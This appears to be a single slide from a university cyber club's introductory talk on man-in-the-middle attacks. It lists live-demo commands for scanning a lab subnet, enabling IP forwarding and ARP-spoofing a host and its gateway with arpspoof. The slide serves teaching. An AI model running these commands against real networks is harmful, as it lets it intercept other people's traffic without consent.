

# Live Demo Commands
arp-scan -I eth1 172.16.5.0/24
nmap -PR -sn 172.16.5.*

echo 1 > /proc/sys/net/ipv4/ip_forward

arpspoof -i eth1 -t 172.16.5.5 -r 172.16.5.1
arpspoof -i eth1 -t 172.16.5.1 -r 172.16.5.5
11/24/2022
UIC Cyber Sig Intro to MITM
18